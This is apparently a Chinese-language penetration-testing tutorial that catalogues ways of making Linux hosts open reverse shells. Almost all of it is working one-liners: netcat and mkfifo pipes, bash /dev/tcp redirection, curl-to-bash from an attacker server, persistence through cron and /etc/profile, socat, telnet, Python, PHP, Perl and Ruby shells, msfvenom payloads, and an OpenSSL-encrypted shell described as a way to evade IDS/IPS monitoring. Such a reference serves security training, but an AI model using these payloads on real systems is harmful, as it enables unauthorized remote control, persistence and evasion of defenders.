

## **0x01 前言**

在渗透测试实战中，我们经常会遇到Linux系统环境，而让Linux主机反弹个shell是再常见不过的事情了。

反弹shell，就是攻击机监听在某个TCP/UDP端口为服务端，目标机主动发起请求到攻击机监听的端口，并将其命令行的输入输出转到攻击机。

### **正向连接**

假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。

### **反向连接**

那么为什么要用反弹shell呢？

反弹shell通常适用于如下几种情况：

```shell
•目标机因防火墙受限，目标机器只能发送请求，不能接收请求。
•目标机端口被占用。
•目标机位于局域网，或IP会动态变化，攻击机无法直接连接。
•对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机，都是未知的。
•......
```

对于以上几种情况，我们是无法利用正向连接的，要用反向连接。

那么反向连接就很好理解了，就是攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，即为反向连接。

### 反弹方式选取

反弹shell的方式有很多，那具体要用哪种方式还需要根据目标主机的环境来确定，比如目标主机上如果安装有netcat，那我们就可以利用netcat反弹shell，如果具有python环境，那我们可以利用python反弹shell。如果具有php环境，那我们可以利用php反弹shell。

这里可以使用whereis命令去确定目标支持的反弹方法  ：

```shell
whereis nc bash python php exec lua perl ruby
```

 

## **0x02 利用netcat反弹shell**

Netcat 是一款简单的Unix工具，使用UDP和TCP协议。它是一个可靠的容易被其他程序所启用的后台操作工具，同时它也被用作网络的测试工具或黑客工具。使用它你可以轻易的建立任何连接。

### 1、nc有-e选项可用

目前，默认的各个linux发行版本已经自带了netcat工具包，但是可能由于处于安全考虑原生版本的netcat带有可以直接发布与反弹本地shell的功能参数 -e 都被阉割了


所以我们需要自己手动下载二进制安装包，安装的如下：

```shell
wget https://nchc.dl.sourceforge.net/project/netcat/netcat/0.7.1/netcat-0.7.1.tar.gztar -xvzf netcat-0.7.1.tar.gz./configuremake && make installmake clean
```

安装完原生版本的 netcat 工具后，便有了netcat -e参数，我们就可以将本地bash反弹到攻击机上了。

**攻击机开启本地监听：**

```shell
netcat -lvvp 2333
```

**目标机主动连接攻击机：**

```shell
nc 192.168.1.130 2333 -e /bin/bash
nc <攻击机IP> <攻击机监听的端口> -e /bin/bash
```

### 2、nc无-e选项可用的情况

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.130 2333 >/tmp/f
```

**简单的解释：**

mkfifo 命令首先创建了一个管道，cat 将管道里面的内容输出传递给/bin/sh，sh会执行管道里的命令并将标准输出和标准错误输出结果通过nc 传到该管道，由此形成了一个回路


类似的命令：

```shell
mknod backpipe p; nc 192.168.1.130 2333 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```

## **0x03 利用Bash反弹shell**

个人感觉反弹shell最好用的方法就是使用bash结合重定向方法的一句话，具体命令如下：

```shell
bash -i >& /dev/tcp/攻击机ip/2333 0>&1
bash -c "bash -i >& /dev/tcp/攻击机ip/2333 0>&1"
bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1
```

以下是针对Bash反弹一句话进行了拆分说明：

| 命令             | 命令详解                                                     |
| ---------------- | ------------------------------------------------------------ |
| bash -i          | 产生一个bash交互环境。                                       |
| >&               | 将混合输出（标准输出+标准错误输出）结合，然后一起重定向给后者。 |
| /dev/tcp/ip/2333 | Linux环境中所有的内容都是以文件的形式存在的，其实大家一看见这个内容就能明白，就是让目标主机与攻击机的2333端口建立一个tcp连接。 |
| 0>&1             | 将标准输入与标准输出的内容相结合，然后重定向给前面标准输出的内容。 |

Bash反弹一句完整的解读过程就是：

Bash产生了一个交互环境和本地主机主动发起与攻击机2333端口建立的连接（即TCP 2333会话连接）相结合，然后在重定向个TCP 2333会话连接，最后将用户键盘输入与用户标准输出相结合再次重定向给一个标准的输出，即得到一个Bash反弹环境。

**攻击机开启本地监听：**

```shell
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```shell
bash -i >& /dev/tcp/192.168.1.130/2333 0>&1
```

### **Curl配合Bash反弹shell**

这里操作也很简单，借助了Linux中的管道。

首先，在攻击者vps的web目录里面创建一个index文件（index.php或index.html），内容如下：

```shell
bash -i >& /dev/tcp/攻击方ip/2333 0>&1
```

并开启2333端口的监听。

```shell
nc -lvp 2333
```

然后再目标机上执行如下，即可反弹shell：

```shell
curl 攻击方ip|bash
```

根据curl命令和Linux管道的作用，你不难理解这其中的原理。

注：Curl配合Bash反弹shell的方式在CTF题目中经常出现，curl IP|bash 中的IP可以是任意格式的，可以是十进制、十六进制、八进制、二进制等等。

### **将反弹shell的命令写入定时任务**

我们可以在目标主机的定时任务文件中写入一个反弹shell的脚本，但是前提是我们必须要知道目标主机当前的用户名是哪个。因为我们的反弹shell命令是要写在 /var/spool/cron/[crontabs]/<username> 内的，所以必须要知道远程主机当前的用户名。否则就不能生效。

```shell
*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/攻击方ip/2333 0>&1
#每隔一分钟，向攻击方的2333号端口发送shell
```

比如，当前用户名为root，我们就要写入到 /var/spool/cron/root 中。(centos系列主机)

比如，当前用户名为root，我们就要写入到 /var/spool/cron/crontabs/root 中。(Debian/Ubuntu系列主机)

### **将反弹shell的命令写入/etc/profile文件**

将以下反弹shell的命写入/etc/profile文件中，/etc/profile中的内容会在用户打开bash窗口时执行。

```shell
/bin/bash -i >& /dev/tcp/ip/2333 0>&1 &
# 最后面那个&为的是防止管理员无法输入命令
```

当目标主机管理员远程连接该主机时，就会执行该命令，成功获得目标机的shell：

## **0x04 利用Socat反弹shell**

Socat是Linux 下一个多功能的网络工具，名字来由是”Socket CAT”，因此可以看出它是基于socket的，其功能与netcat类似，不过据说可以看做netcat的加强版，事实上的确也是如此。我这里只简单的介绍下怎么使用它开启监听和反弹shell,其他详细内容可以参见这里：

[SOCAT 简介](http://brieflyx.me/2015/linux-tools/socat-introduction/)

安装Socat的方法很简单：

•Ubuntu等可以直接使用 apt-get install socat 命令进行安装

也可以去官网下载源码包：http://www.dest-unreach.org/socat

**攻击机开启本地监听：**

```shell
socat TCP-LISTEN:2333 -或nc -lvvp 2333
```

**目标机主动连接攻击机：**

```shell
socat tcp-connect:攻击方ip:2333 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

## **0x05 利用Telnet反弹shell**

当nc和/dev/tcp不可用，且目标主机和攻击机上支持Telnet服务时，我们可以使用Telnet反弹shell。

### **方法一**

**攻击机开启本地监听：**

```shell
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```shell
mknod a p; telnet 攻击方ip 2333 0<a | /bin/bash 1>a
```

### **方法二**

**攻击机需要开启两个本地监听：**

```shell
nc -lvvp 2333nc -lvvp 4000
```

**目标机主动连接攻击机：**

```shell
telnet 攻击机ip 2333 | /bin/bash | telnet 攻击机ip 4000
```

**获得shell后，在攻击机2333端口的终端上输入的命令会在目标机上执行，执行的回显将通过4000端口的终端显示出来。**

## **0x06 各种脚本反弹shell**

### **1. Python 脚本反弹shell**

当目标主机上有python环境时，我们可以用Python来反弹shell。Python在现在一般发行版Linux系统中都会自带，所以使用起来也较为方便，即使没有安装，我们手动安装也很方便。

**攻击机开启本地监听：**

```shell
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.130",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

执行效果如下：


### **2. php 脚本反弹shell**

当目标主机上有php环境时，我们可以用php来反弹shell。

**攻击机开启本地监听：**

```python
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```python
php -r '$sock=fsockopen("192.168.1.130",2333);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### **3. Perl 脚本反弹shell**

当目标主机上有perl环境时，我们可以用perl来反弹shell。

**攻击机开启本地监听：**

```python
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```python
perl -e 'use Socket;$i="攻击机ip";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### **4. Ruby脚本反弹shell**

当目标主机上有ruby环境时，我们可以用ruby来反弹shell。

**攻击机开启本地监听：**

```python
nc -lvvp 2333
```

**目标机主动连接攻击机：**

```python
ruby -rsocket -e 'c=TCPSocket.new("攻击机ip","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'或ruby -rsocket -e 'exit if fork;c=TCPSocket.new("47.xxx.xxx.72","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## **0x06 使用Metasploit生成反弹shell用的一句话**

强大的Metasploit框架也为我们提供了生成一句话反弹shell的工具，即msfvenom，绝对的实用。当我们不记得前面说的所有反弹shell的反弹语句时，只要我们有Metasploit，那么我们随时都可以使用 msfvenom -l 来查询生成我们所需要的各类命令行一句话，具体使用方法如下。

我们直接可以使用 msfvenom -l 结合关键字过滤（如cmd/unix/reverse），列出我们需要生成的各类反弹shell一句话的payload：

```python
msfvenom -l payloads | grep 'cmd/unix/reverse'
```

metasploit支持生成反弹shell一句话的类型非常丰富，大家可以依据渗透测试对象自行选择使用。比如，我们获取一个python反弹shell的一句话：

```python
msfvenom -p cmd/unix/reverse_python LHOST=攻击机ip LPORT=2333 -f raw
```

将生成的python反弹shell的一句话在目标主机上执行即可：

## **0x07 反弹shell后获取模拟终端**

其实，上面所讲的各种方法获取的shell都不是一个标准的虚拟终端环境，它仅仅是一个标准输入。你会发现存在一个问题，就是即使我们获取了目标虚拟终端控制权限，但是往往会发现其交互性非常的差，回显信息与可交互性非常的差和不稳定，具体见情况有以下几个种。

```python
•获取的虚拟终端没有交互性，我们想给添加的账号设置密码或执行sudo等命令，无法完成。
•标准的错误输出无法显示，无法正常使用vim等文本编辑器等。
•获取的目标主机的虚拟终端使用非常不稳定，很容易断开连接。
```

这往往都是因为我们获取的shell并不是标准的虚拟终端，为了能够完成输入密码等操作，我们必须模拟一个真正的终端设备。

我们其实可以借助于python默认包含的一个pty标准库来获取一个标准的虚拟终端环境。Python在现在一般发行版Linux系统中都会自带，所以使用起来也较为方便，即使没有安装，我们手动安装也很方便。

我们只需在获取的shell里面输入如下命令，即可模拟一个终端设备：

```python
python -c "import pty;pty.spawn('/bin/bash')"
```


如上图所示，成功模拟在shell中出了一个终端设备，并成功执行了sudo等命令。

## **0x08 使用OpenSSL反弹加密shell**

在上文中，我们总结了很多反弹shell得方法，但是我发现这种反弹 shell 方式都有一个缺点，那就是**所有的流量都是明文传输的**。这些通过shell通过传输的流量都可以被管理员直接抓取并理解，当目标主机网络环境存在网络防御检测系统时（IDS、IPS等），网络防御检测系统会获取到我们的通信内容并进行告警和阻止。因此，我们需要对通信的内容进行混淆或加密，这时可以选择使用 OpenSSL 反弹一个加密的 shell。

### **OpenSSL 简介**

在计算机网络上，OpenSSL 是一个开放源代码的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份。

SSL协议要求建立在可靠的传输层协议(TCP)之上。SSL协议的优势在于它是与应用层协议独立无关的，高层的应用层协议(例如：HTTP，FTP，TELNET等)能透明地建立于SSL协议之上。SSL协议在应用层协议通信之前就已经完成加密算法、通信密钥的协商及服务器认证工作。在此之后应用层协议所传送的数据都会被加密，从而保证通信的私密性。

在利用 OpenSSL 反弹 shell 之前需要先生成自签名证书：

```python
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

生成自签名证书时会提示输入证书信息，如果懒得填写可以一路回车即可：



### **使用OpenSSL反弹加密shell**

实验环境：Linux

目标机：系统：Linux•IP：192.168.1.129

攻击机：系统：Linux•IP：192.168.1.130

假设我们从目标机反弹 shell 到攻击机 。首先需要利用上一步生成的自签名证书，在攻击机上使用 OpenSSL 监听一个端口，在这里使用 2333 端口：

```python
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333
```

此时 OpenSSL 便在攻击机的 2333 端口上启动了一个 SSL/TLS server。

这时在目标机进行反弹 shell 操作，命令为：

```python
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.1.130:2333 > /tmp/s; rm /tmp/s
```

这样攻击者便使用 OpenSSL 反弹了目标机一个加密的 shell。